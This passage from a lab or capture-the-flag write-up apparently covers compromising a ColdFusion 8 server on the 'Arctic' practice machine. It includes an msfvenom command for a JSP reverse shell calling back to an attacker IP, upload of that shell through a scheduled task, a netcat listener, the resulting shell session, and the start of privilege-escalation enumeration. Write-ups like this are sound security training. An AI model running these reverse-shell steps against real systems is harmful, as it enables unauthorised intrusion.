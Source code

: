 ![image-20210614145103932](C:\Users\brice\AppData\Roaming\Typora\typora-user-images\image-20210614145103932.png)

Since the technology that is being ran for ColdFusion is Java, `.jsp` files will be the one we want to use to get a reverse shell. Knowing this, I am going to create a payload using `msfvenom` which is a payload generator and encoder. 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.36 LPORT=1337 -f raw> reverse.jsp
```

This will create a `.jsp` reverse shell with `LHOST` being your IP, and `LPORT` being the port you will be listening on.

Now we can go ahead and upload this through the scheduled task. I setup a simple HTTP server using the `python -m SimpleHTTPServer 80` command on the directory that has my `reverse.jsp` file.

![image-20210614222004098](C:\Users\brice\AppData\Roaming\Typora\typora-user-images\image-20210614222004098.png)

Now that we have our schedule tasks, we can click the green icon on the left to execute the task.

![image-20210614194813933](C:\Users\brice\AppData\Roaming\Typora\typora-user-images\image-20210614194813933.png)

Now let's start up our Netcat listener on port 1337 and then navigate to `10.10.10.11:8500/CFIDE/reverse.jsp`. 

```
nc -lvnp 1337
```

We get a low privileged shell.

```
root@kali-[~]nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.11] 51283
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Privilege Escalation

First thing I do when I get a low privileged shell is run `whoami /all` and see if I have any interesting privileges.

```
C:\ColdFusion8\runtime\bin>whoami /all                                                                                
whoami /all                                                                                                           
                                                           
USER INFORMATION                              
----------------                                  
                                                           
User Name    SID                                          
============ =============================================                                                            
arctic\tolis S-1-5-21-2913191377-1678605233-910955532-1000
                                                           
                                                           
GROUP INFORMATION                  
-----------------                
                                                           
Group Name                           Type             SID          Attributes                                        
```